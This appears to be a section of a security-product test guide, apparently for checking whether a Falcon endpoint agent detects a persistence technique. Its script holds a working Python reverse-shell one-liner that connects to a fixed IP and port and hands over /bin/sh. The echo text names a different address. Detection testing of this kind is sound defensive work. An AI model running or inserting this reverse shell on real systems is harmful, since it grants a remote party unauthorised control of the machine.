 ![alt text](images/dns.png)

### 8. Persistence Testing

```bash
#!/bin/sh
# Persistence_via_External_Remote_Services
echo -e "\e[92mExecuting Persistence via External Remote Services via Python script. This script will try creating presistance to 192.168.1.222. A Falcon Prevent action can kill the attempt"
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.21",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-"]);'
```

**Expected Results:**

![alt text](images/persistence.png)

